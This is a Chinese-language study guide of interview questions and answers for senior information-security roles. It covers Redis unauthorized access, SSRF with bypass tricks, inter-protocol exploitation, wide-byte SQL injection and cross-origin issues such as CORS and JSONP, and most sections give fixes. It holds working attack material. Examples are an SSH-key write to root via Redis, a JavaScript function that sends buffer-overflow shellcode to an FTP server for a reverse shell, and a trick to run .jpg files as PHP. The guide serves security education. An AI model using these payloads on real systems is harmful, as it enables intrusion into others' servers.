# 信息安全高级岗位面试与笔试

## 渗透测试（Web方向）

### 挑选两到四个不同方向常见和不常见的漏洞，就漏洞原理、利用方式和修复方案进行提问，然后根据回答的情况进行详细深入的二次提问
可以参考owasp top 10 项目

### Redis未授权访问漏洞如何入侵利用？

Redis服务器监听6379端口（默认）。可能存在几个问题：
- 仅采用默认策略（例如，没有防火墙禁止其它不可信ip访问），可能会暴露此服务器。
- 没有设置身份认证，那么数据将被访问。
- redis 中的config命令可以进行文件写操作，若将自己的ssh公钥写入/root/.ssh/的authorized_keys中，那么可以使用此ssh登录服务器。

漏洞产生的条件：
- 默认监听或被发现监听端口，且可以访问；
- 没有身份认证即可访问redis服务

漏洞的危害：
- 攻击者无需认证访问到内部数据，可能导致敏感信息泄露，黑客也可以恶意执行flushall来清空所有数据；
- 攻击者可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件；
- 最严重的情况，如果Redis以root身份运行，黑客可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器

具体可查看：https://www.freebuf.com/vuls/162035.html

### SSRF漏洞原理、利用方式及修复方案？Java和PHP的SSRF区别？

https://www.freebuf.com/articles/web/20407.html


SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

注释：除了http/https等方式可以造成ssrf，类似tcp connect 方式也可以探测内网一些ip 的端口是否开发服务，只不过危害比较小而已。

可能出现的地方
1.社交分享功能：获取超链接的标题等内容进行显示

2.转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览

3.在线翻译：给网址翻译对应网页的内容

4.图片加载/下载：例如富文本编辑器中的点击下载图片到本地；通过URL地址加载或下载图片

5.图片/文章收藏功能：主要其会取URL地址中title以及文本的内容作为显示以求一个好的用具体验

6.云服务厂商：它会远程执行一些命令来判断网站是否存活等，所以如果可以捕获相应的信息，就可以进行ssrf测试

7.网站采集，网站抓取的地方：一些网站会针对你输入的url进行一些信息采集工作

8.数据库内置功能：数据库的比如mongodb的copyDatabase函数

9.邮件系统：比如接收邮件服务器地址

10.编码处理, 属性信息处理，文件处理：比如ffpmg，ImageMagick，docx，pdf，xml处理器等

11.未公开的api实现以及其他扩展调用URL的功能：可以利用google 语法加上这些关键字去寻找SSRF漏洞

一些的url中的关键字：```share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain、……```

12.从远程服务器请求资源（upload from url 如discuz！；import & expost rss feed 如web blog；使用了xml引擎对象的地方 如wordpress xmlrpc.php）

0x02 漏洞验证
1.排除法：浏览器f12查看源代码看是否是在本地进行了请求

比如：该资源地址类型为 http://www.xxx.com/a.php?image=（地址）的就可能存在SSRF漏洞

2.dnslog等工具进行测试，看是否被访问

--可以在盲打后台用例中将当前准备请求的uri 和参数编码成base64，这样盲打后台解码后就知道是哪台机器哪个cgi触发的请求。

3.抓包分析发送的请求是不是由服务器的发送的，如果不是客户端发出的请求，则有可能是，接着找存在HTTP服务的内网地址

--从漏洞平台中的历史漏洞寻找泄漏的存在web应用内网地址

--通过二级域名暴力猜解工具模糊猜测内网地址

4.直接返回的Banner、title、content等信息

5.留意bool型SSRF

0x03 利用方式
1.让服务端去访问相应的网址

2.让服务端去访问自己所处内网的一些指纹文件来判断是否存在相应的cms

3.可以使用file、dict、gopher[11]、ftp协议进行请求访问相应的文件

4.攻击内网web应用（可以向内部任意主机的任意端口发送精心构造的数据包{payload}）

5.攻击内网应用程序（利用跨协议通信技术）

6.判断内网主机是否存活：方法是访问看是否有端口开放

7.DoS攻击（请求大文件，始终保持连接keep-alive always）

0x04 绕过小技巧
注：参考[8]会有更详细的绕过方式总结

1.http://baidu.com@www.baidu.com/与http://www.baidu.com/请求时是相同的

2.各种IP地址的进制转换

3.URL跳转绕过：http://www.hackersb.cn/redirect.php?url=http://192.168.0.1/

4.短网址绕过 http://t.cn/RwbLKDx

5.xip.io来绕过：http://xxx.192.168.0.1.xip.io/ == 192.168.0.1 (xxx 任意）

指向任意ip的域名：xip.io(37signals开发实现的定制DNS服务)

6.限制了子网段，可以加 :80 端口绕过。http://tieba.baidu.com/f/commit/share/openShareApi?url=http://10.42.7.78:80

7.探测内网域名，或者将自己的域名解析到内网ip

8.例如 http://10.153.138.81/ts.php , 修复时容易出现的获取host时以/分割来确定host，

但这样可以用 http://abc@10.153.138.81/ 绕过

0x05 漏洞示例
1.Wordpress3.5.1以下版本 xmlrpc.php pingback的缺陷与ssrf

2.discuz！的ssrf （利用php的header函数来绕过，其实就是302跳转实现协议转换）

3.weblogic的ssrf

0x06 漏洞修复
1.禁止跳转

2.过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。

3.禁用不需要的协议，仅仅允许http和https请求。可以防止类似于file://, gopher://, ftp:// 等引起的问题

4.设置URL白名单或者限制内网IP（使用gethostbyname()判断是否为内网IP）

5.限制请求的端口为http常用的端口，比如 80、443、8080、8090

6.统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。

0x07 漏洞利用中牵涉的小技巧
crontab -l 显示当前计划任务

crontab -r 清除当前计划任务

端口转发工具 socat

在Apache配置文件中写入下面的内容，就可以将jpg文件当做PHP文件来执行

AddType application/x-httpd-php .jpg
……

0x08 相关材料
[1]http://blog.safebuff.com/2016/07/03/SSRF-Tips/

[2]https://paper.seebug.org/393/

[3]https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF

[4]http://blog.blindspotsecurity.com/2017/02/advisory-javapython-ftp-injections.html

[5]https://medium.com/secjuice/php-ssrf-techniques-9d422cb28d51

[6]http://byd.dropsec.xyz/2017/06/04/SSRF%E6%BC%8F%E6%B4%9E%E5%89%96%E6%9E%90%E4%B8%8E%E5%88%A9%E7%94%A8/

[7]https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html

[8]https://www.secpulse.com/archives/65832.html

[9]https://www.cnblogs.com/s0ky1xd/p/5859049.html

[10]https://www.t00ls.net/articles-41070.html

[11]https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2

[12]https://ricterz.me/posts/HITCON%202017%20SSRFme

[13]http://bobao.360.cn/learning/detail/240.html

[14]https://github.com/JnuSimba/MiscSecNotes/tree/master/%E6%9C%8D%E5%8A%A1%E7%AB%AF%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0

[15]https://github.com/ring04h/papers/blob/master/build_your_ssrf_exp_autowork--20160711.pdf

### 跨协议通信技术利用

跨协议通信技术(Inter-Protocol Communication)是指两种不同的协议可以交换指令和数据的技术。其中一种称为目标协议，另外一种称为载体协议。目标协议就是我们最终想要通信的协议，而载体协议是用来封装我们最后想要发送的指令和数据。

这种类型的通信想要完成有两个必要条件:

- 目标协议必须容错性比较好.这是因为我们是通过一个载体协议来传输指令的,这样就很可能会掺杂一些目标协议无法识别的指令。
- 载体协议能够封装目标协议的指令.即使目标协议无法识别所有封装过的指令,也必须能够识别最终要的部分指令。

如何利用跨协议通信

跨协议漏洞利用(Inter-Protocol Expoitation)是通过一种协议去攻击运行另外一种协议的服务。

大家最关注的还是载体协议是HTTP的时候,因为这样攻击者就可以通过人人都有浏览器来发起攻击了。这种类型的攻击可以让攻击者访问到本来只有受害者才有权访问的资源和服务(比如内网不对外开放的服务)。这个过程中受害者充当了一个傀儡的角色，接收并执行了有风险的代码.

一些用换行来作为命令分隔符的协议,比如SMTP,POP3,IRC和FTP都会受这种攻击的影响.这是因为当目标协议处理多行数据的时候是一行一行单独处理的.而这些协议的容错性都比较好.这就使得这些协议忽略掉识别不了的行,只执行可以识别的代码.

为了更好的理解跨协议通信,我们来看一个简单的例子.

示例一:通过HTTP连接FTP服务器 #

通过浏览器连接ftp服务器非常简单,一个HTTP POST请求就可以了.下面是一个连接本机的FTP服务器的代码.
```
<form method='POST' action='http://localhost:21' enctype='multipart/form-data'>
<input type='hidden' name='a' value='user secforce'>
<input type='hidden' name='a' value='pass secforce'>
<input type='submit'>
</form>
```
假设这个FTP用户密码存在的话,提交这个表单就可以登录到FTP服务器了.是不是很简单.

具体发送的POST请求数据包如下:
```
POST / HTTP/1.1
Host: 127.0.0.1:21
User-Agent: Mozilla/5.0 (X11; Debian; Linux x86_32; rv:16.0) Gecko/20110007 Firefox/20.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-gb,en;q=0.5
Accept-Encoding: gzip, deflate
Proxy-Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------63079936718166855021600323653
Content-Length: 304
 
-----------------------------63079936718166855021600323653
Content-Disposition: form-data; name="a"
 
user secforce
-----------------------------63079936718166855021600323653
Content-Disposition: form-data; name="a"
 
pass secforce
-----------------------------63079936718166855021600323653--
```
我们接收到返回数据如下.所有的50X错误对应服务器无法识别的HTTP行.FTP服务器忽略了他们,执行了它可以识别的命令.
```
220--------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-Local time is now 12:41. Server port: 21.
220-This is a private system - No anonymous login
220 You will be disconnected after 15 minutes of inactivity.
530 You aren't logged in
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
331 User secforce OK. Password required
500 ?
500 ?
500 ?
230 OK. Current directory is /
500 ?
```
自己测试的话你可能发现并不是所有的FTP命令都正常工作.像MKD/RMD和DEL工作正常,GET/PUT,RETR/STOR无法正常工作.这是因为FTP是一种带外(out-of-band)协议,它的数据和控制指令是通过不同的TCP端口传送的.事实上,如果你尝试用STOR命令上传一个文件到服务器上,会发现在服务器上创建了一个同名的空文件.这是因为在文件开始传输数据之前先创建一个空文件，所有的命令都不需要一个单独的数据连接就可以工作。

让我们看一个更加有趣的例子。

示例2:通过HTTP溢出FTP服务器反弹shell #

这个例子中我们使用EasyFTP v1.7,这个版本存在一个MKD命令的缓冲区溢出漏洞.需要注意的是这个命令不需要一个额外的数据连接通道就可以成功执行.我们在虚拟机里搭建好服务器(192.168.1.10),创建"anonymous"用户.因为成功利用这个漏洞的前提是先登录到FTP服务器.

因为没有必要重复造轮子,这里我们直接使用一个公开的漏洞利用代码(参考资料[1]])来构造POST请求.这次使用javascript来发送shellcode到FTP服务器.为了成功发送shellcode,我们使用了sendAsBinary函数,详情参考资料[2][3].

最后的函数如下:
```
function exploit(){
var url = 'http://192.168.1.10:21'
var intro = 'USER anonymous\r\nPASS anonymous\r\n'
var payload = 'MKD \x89\xe7\x81\xef\x10\xfe\xff\xff\xc7\x07\x13\x57\x7e\xd6\x81\xc7
\x14\xff\xff\xff\xff\xe7\x43\x43\x43\x43\x43\x43\x43\x43\x43\x43
\xba\xae\x16\xd0\x74\xd9\xcc\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x4f
\x31\x56\x14\x83\xee\xfc\x03\x56\x10\x4c\xe3\x2c\x9c\x19\x0c\xcd
\x5d\x79\x84\x28\x6c\xab\xf2\x39\xdd\x7b\x70\x6f\xee\xf0\xd4\x84
\x65\x74\xf1\xab\xce\x32\x27\x85\xcf\xf3\xe7\x49\x13\x92\x9b\x93
\x40\x74\xa5\x5b\x95\x75\xe2\x86\x56\x27\xbb\xcd\xc5\xd7\xc8\x90
\xd5\xd6\x1e\x9f\x66\xa0\x1b\x60\x12\x1a\x25\xb1\x8b\x11\x6d\x29
\xa7\x7d\x4e\x48\x64\x9e\xb2\x03\x01\x54\x40\x92\xc3\xa5\xa9\xa4
\x2b\x69\x94\x08\xa6\x70\xd0\xaf\x59\x07\x2a\xcc\xe4\x1f\xe9\xae
\x32\xaa\xec\x09\xb0\x0c\xd5\xa8\x15\xca\x9e\xa7\xd2\x99\xf9\xab
\xe5\x4e\x72\xd7\x6e\x71\x55\x51\x34\x55\x71\x39\xee\xf4\x20\xe7
\x41\x09\x32\x4f\x3d\xaf\x38\x62\x2a\xc9\x62\xeb\x9f\xe7\x9c\xeb
\xb7\x70\xee\xd9\x18\x2a\x78\x52\xd0\xf4\x7f\x95\xcb\x40\xef\x68
\xf4\xb0\x39\xaf\xa0\xe0\x51\x06\xc9\x6b\xa2\xa7\x1c\x3b\xf2\x07
\xcf\xfb\xa2\xe7\xbf\x93\xa8\xe7\xe0\x83\xd2\x2d\x97\x84\x45\x62
\xb8\x1a\x92\x12\xbb\x1a\x8b\xbe\x32\xfc\xc1\x2e\xec\x41\x40\x00
\x3e\x23\x1f\x17\x95\xa3\xbc\x8a\x72\x33\xca\xb6\x2c\x64\x9b\x09
\x25\xe0\x31\x33\x9f\x16\xc8\xa5\xd8\x92\x17\x16\xe6\x1b\xd5\x22
\xcc\x0b\x23\xaa\x48\x7f\xfb\xfd\x06\x29\xbd\x57\xe9\x83\x17\x0b
\xa3\x43\xe1\x67\x74\x15\xee\xad\x02\xf9\x5f\x18\x53\x06\x6f\xcc
\x53\x7f\x8d\x6c\x9b\xaa\x15\x8c\x7e\x7e\x60\x25\x27\xeb\xc9\x28
\xd8\xc6\x0e\x55\x5b\xe2\xee\xa2\x43\x87\xeb\xef\xc3\x74\x86\x60
\xa6\x7a\x35\x80\xe3'
var req = new XMLHttpRequest();
req.open('POST', url, true);
req.setRequestHeader('Content-Type', 'text/plain');
req.setRequestHeader('Content-Length', '20');
req.sendAsBinary(intro + payload + '\r\n'); // neat way to send hexadecimal code through HTTP
}
```
这里的payload选用了反弹shell到我们自己主机的端口4444.然后用nc监听.当在浏览器中访问嵌入了上面js代码的网页时.奇迹发生了.

如何防御攻击 #

- 屏蔽端口.默认情况下,大部分浏览器会拒绝连接到一些著名的端口,比如21/FTP,25/SMTP等.这种保护方式可以通过修改浏览器配置或者使用非标准端口突破.
- 更少的容错性.一些协议接受到无法识别的命令的时候会关闭连接.这样子降低了灵活性但是增强了抵御跨协议攻击的能力.更好一点的做法是连续接收到无法识别的命令后关闭连接.

结论

正如上面提到的,这种攻击方式有很多限制.通常情况下,想要达到同样的结果有很多比跨协议攻击更好的方式.但是在特定的环境下,这种类型的攻击是一种很有效的攻击方式.

### 宽字节注入漏洞原理、利用方式及修复方案？

宽字节注入是针对某些程序（例如MYSQL）即接收单字节表示的ASCII码字符也接收双字节表示的字符（例如GB2312、GBK、GB18030、BIG5、Shift_JIS、UTF-16）时，会因未明确指定字符集而疏于检查用户传入的字符，导致注入攻击。

这种漏洞经常表现为一种面向mysql数据库的SQL注入漏洞。典型应用场景是PHP+mysql应用。有此漏洞的典型应用被注入时的基本过程如下：
- 1.用户访问网站，在某个存在该漏洞的注入点输入了一串字符；
- 2.经http传输，这串字符使用PHP编码（默认为空）生成sql语句发送给数据库服务器；
  - 在这一步，PHP开发者通常会对输入字符串进行转义净化；
  - php中，没有定义```default_charset```全局变量时，就是默认为空，当前常见的是```default_charset=utf-8```
  - php还会根据后端数据库编码来自动确定使用哪种编码。此时，php往往会读mysql系统变量```character_set_client```中的编码名称。
- 3.数据库服务器接收到请求后，会把客户端编码的字符串转换成连接层编码字符串（传输编码）；
  - 具体地，是先使用mysql系统变量```character_set_client```指定的编码对sql语句进行解码；
  - 然后使用mysql系统变量```character_set_connection```对上一步解码后字节进行编码，形成处理前命令字符串。
- 4.在数据库服务器进行内部操作前，将待执行的命令字符串按如下规则转化成内部操作字符集，如下：
  - 使用字段 ```CHARACTER SET``` 设定值；
  - 若上述值不存在，使用对应数据表的 ```DEFAULT CHARACTER SET``` 设定值；
  - 若上述值不存在，则使用对应数据库的```DEFAULT CHARACTER SET```设定值;
  - 若上述值不存在，则使用```character_set_server```设定值。
- 5.执行完 SQL 语句之后，将执行结果按照 character_set_results 编码进行输出。

宽字节编码注入时：
- 在上述第1步，攻击者将简单注入中使用的单引号```'```（%27）替换为%df%27(注，%df只是符合GBK字符编码范围的一个高位字节编码，不必考虑其实际意义)。
- 在上述第2步，为了防止恶意用户注入特殊字符，例如单引号```' " \```，在php等脚本中会使用```addsplash() mysql_real_escape_string()```函数等方法进行转义。例如：用户输入的单引号```'```，会变为```\'```，其中```\```的十六进制值为 %5c。这样，%df%27就变为%df%5c%27。
- 第3步，mysql收到 %df%5c%27 ，若MySQL的```character_set_client=GBK```，那么会将%df%5c认为是一个汉语字符，而后面的%27被解码为单引号。也就是说，单引号并没有被转义或净化掉，而是成功被传输到后端数据库。
- 后续步骤，与上述步骤一致。

补充一些PHP中的字符转义函数：
> 在PHP中，addslashes() 函数返回在预定义字符之前添加反斜杠的字符串。预定义字符是：单引号（'）, 双引号（"）, 反斜杠（\）, NULL。

> 在PHP中，mysql_real_escape_string() 函数转义 SQL 语句中使用的的特殊字符。会被转义的字符包括：```\x00 \n \r \ ' " \x1a```。
> 在PHP中，stripslashes()函数用于去除反斜杠。
> 在PHP中，get_magic_quotes_gpc()，获取当前 magic_quotes_gpc 的配置选项设置，如果 magic_quotes_gpc 为关闭时返回 0，否则返回 1。在 PHP 5.4.O 起将始终返回 FALSE。尝试在运行时设置 magic_quotes_gpc 将不会生效。
> 在PHP中，magic_quotes_gpc 为 GPC (Get/Post/Cookie) 操作设置 magic_quotes 状态。 当 magic_quotes 为 on，所有的 ' (单引号)、" (双引号)、\（反斜杠）和 NUL's 被一个反斜杠自动转义。
### 简述跨域威胁与安全

Web安全中常见的XSS和CSRF都属于跨域安全问题。

所谓域，即域名对应的网站。不同域名对应不同的站点，我们可以在逻辑上把一个域认为是一个安全区域。

#### 同源策略 SOP
同源策略限制了一个源中的资源与另一个域的资源的交互，这是常见的一种安全隔离策略。同源策略（Same origin policy）是一种约定，它是浏览器最核心也是最基本的安全功能。出于安全考虑，浏览器限制从JS脚本发起的跨源HTTP请求。 例如，XMLHttpRequest和Fetch API都遵循同源策略。

- 一般意义的同源，是指下列3点完全相同，任何一个不同都不能认为是相同的域：
  - 协议
  - 域名
  - 端口
- DOM 层面的同源策略：限制了来自不同源的”Document”对象或 JS 脚本，对当前“document”对象的读取或设置某些属性；
- Cookie和XMLHttprequest层面的同源策略：禁止 Ajax 直接发起跨域HTTP请求（其实可以发送请求，结果被浏览器拦截，不展示），同时 Ajax 请求不能携带与本网站不同源的 Cookie。
- 同源策略的非绝对性：```<script><iframe><link><video><audio>```等带有src属性的标签可以从不同的域加载和执行资源。
- 其他插件的同源策略：flash、java applet、silverlight、googlegears等浏览器加载的第三方插件也有各自的同源策略，只是这些同源策略不属于浏览器原生的同源策略，如果有漏洞则可能被黑客利用，从而留下XSS攻击的后患.
- 因为同源策略的限制，不同协议(http、https)、域名或者端口无法直接进行JS , ajax请求。 同源策略只针对于浏览器端，浏览器一旦检测到请求的结果的域名不一致后，会堵塞请求结果。这里注意，跨域请求是可以发去的，但是请求响应response被浏览器堵塞了。

同源策略是浏览器默认的策略，但也可能被修改，例如chrome浏览器可以这样修改，禁用同源策略：新建一个chrome快捷方式，右键“属性”，“快捷方式”选项卡里选择“目标”，添加  ```--args --disable-web-security --user-data-dir```

#### 跨域访问

跨域访问资源将违反同源策略，但有时又不得不这样做，这样跨域访问技术就出现了。主要有两种情况：
- 跨域请求 Cross-domain Request
- 跨域跳转

##### 跨域请求

在 HTML 中，```<a>, <form>, , <script>, <iframe>, <link> ```等标签以及 Ajax 都可以指向一个资源地址，而所谓的跨域请求就是指：当前发起请求的域与该请求指向的资源所在的域不同时的请求。

#### 跨域威胁
##### JSONP跨域
JSONP(JSON with Padding)是JSON的一种“使用模式”，可用于解决主流浏览器的跨域数据访问的问题。由于同源策略，一般来说位于 server1.example.com 的网页无法与不是 server1.example.com的服务器沟通，而 HTML 的```<script>``` 元素是一个例外。利用``` <script> ```元素的这个开放策略，网页可以得到从其他来源动态产生的 JSON 资料，而这种使用模式就是所谓的 JSONP。用 JSONP 抓到的资料并不是 JSON，而是任意的JavaScript，用 JavaScript 直译器执行而不是用 JSON 解析器解析。

JSONP跨域请求需要提供数据的域支持允许。

###### 举例
比如客户想访问 http://www.yiwuku.com/myService.aspx?jsonp=callbackFunction

假设客户期望返回JSON数据：```["customername1","customername2"]```

那么真正返回到客户端的Script Tags: ```callbackFunction([“customername1","customername2"])```

可能的调用方式：```<script type="text/javascript" src="http://www.yiwuku.com/myService.aspx?jsonp=callbackFunction"></script>```

在客户端写callbackFunction函数的实现:
```javascript
<script type="text/javascript">
function CustomerLoaded(result,methodName)
{
    var html='<ul>';
    for(var i=0;i<result.length;i++)
    {
        html+='<li>'+result[i]+'</li>';
    }
    html+='</ul>';
    document.getElementById('divCustomers').innerHTML=html;
}
</script>
```

页面展示
```html
<div id="divCustomers"></div>
```

最终Page Code:
```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <title>Top Customers with Callback</title>
</head>
<body>
    <div id="divCustomers">
    </div>
    <script type="text/javascript">
        function onCustomerLoaded(result, methodName) {
            var html = '<ul>';
            for (var i = 0; i < result.length; i++) {
                html += '<li>' + result[i] + '</li>';
            }
            html += '</ul>';
            document.getElementById('divCustomers').innerHTML = html;
        }
    </script>
    <script type="text/javascript" src="http://www.yiwuku.com/myService.aspx?jsonp=onCustomerLoaded"></script>
</body>
</html>
```

##### CORS 跨域

###### 基本原理
CORS（Crossing Origin Resource Sharing)，跨域资源共享，为了弥补JSONP等跨域常见技术的缺陷，而提出的安全、方便的跨域方案。它允许浏览器跨域访问浏览器，发出XMLHttpRequest请求，从而克服AJAX只能同源使用的限制。

CORS需要浏览器和服务器同时支持，目前的浏览器大多支持，服务器需要做相应配置，其通信过程都是浏览器自动完成。对于开发人员，与AJAX代码区别相差不大，只是在发送跨域请求时需要在HTTP请求头中添加一些字段来验证，关键字段如下：
- ```Access-Control-Allow-Origin```: 用于指定哪些域可以访问域资源，例如，如果requester.com想要访问provider.com的资源，那么开发人员可以使用此Header字段安全授予requester.com对provider.com资源的访问权限。
- ```Access-Control-Allow-Credentials```：指定浏览器是否将使用请求发送cookie。仅当```allow-credentials```标头甚至为true时，才会发送Cookie。
- ```Access-Control-Allow-Methods```：指定可以使用哪些访问发出请求（例如GET POST DELETE)来访问资源。此标头允许开发人员通过在requester.com请求访问provider.com的资源时，指定哪些方法有效来进一步增强安全性。

###### CORS 实现流程

1、服务器配置支持CORS，默认认可所有域都可以访问

2、浏览器客户端把所在的域填充到Origin发送跨域请求

3、服务器根据资源权限配置，在响应头中添加```Access-Control-Allow-Origin``` Header，返回结果

4、浏览器比较服务器返回的```Access-Control-Allow-Origin``` Header和请求域的Origin，如果当前域获得授权，则将结果返回给页面



###### 示例

利用PHP代码实现CORS，只要在服务器端的代码中加入HEADER字段.

a.missfresh.com服务器端，给出了一个可以接收GET请求获取用户信息，并返回uid和name。
```php
<?php
$a = !empty($_GET['a']) ? trim($_GET['a']) : '';
if($a == 'getUserInfo') {
    echo json_encode(array(
        'uid' => 1,
        'name' => '测试',
    ));
} else {
    echo '';
}
```
发起访问：


可以看到下方开发者工具中显示的被拦截信息。无法发起CORS请求，此时将上述a.missfresh.com服务端接口添加header头即可代码改为
```php
<?php

header('Access-Control-Allow-Origin: *');/*允许任意域*/
header('Access-Control-Allow-Credentials: true');/*允许请求发送cookie*/
$a = !empty($_GET['a']) ? trim($_GET['a']) : '';

if($a == 'getUserInfo') {
    echo json_encode(array(
      'uid' => 1,
      'name' => '测试',
    ));
} else {
    echo '';
}
```
此时就可以触发CORS。再次尝试请求：


######  CORS安全威胁

CORS一般最常见的安全威胁就是CORS错误配置导致资源信息泄漏，与JSONP劫持基本上一致。

漏洞原理：通常开发人员使用CORS一般默认允许来自所有域或者由于错误的正则匹配方式造成绕过规定的白名单域.

实际案例:以一加官网为例，登陆后，访问个人信息，然后利用burpsuite抓包，修改origin的域，发现任意域都可以被服务器接受


构造exp：



成功：


##### PostMessage跨域

PostMeaage是H5新引入的实现跨域窗口之间的通讯，可以安全地实现windows对象之间的跨域通信

PostMessage主要依靠Window.postMessage方法，该方法有三个参数
- message：发送到其他窗口的数据
- targetOrigin：接受数据消息的目标窗口,当该值为星号（* ）表示任意一个域都可以接受消息
- transfer： 可选项，代表纤细的所有权

除了发送之外，必然有一个接受消息的窗口，一般用```window.addEventListener(“message”,receiveMessage.false)```,用以接受消息数据

PostMessage实现流程:
- 创建一个页面A，定义一个Postmessage方法
- 创建一个页面B，定义一个window.addEventListener(“message”，function）方法接受来源于Postmessage方法的消息
- 页面A使用Iframe标签包含页面B，触发Postmessage方法即可

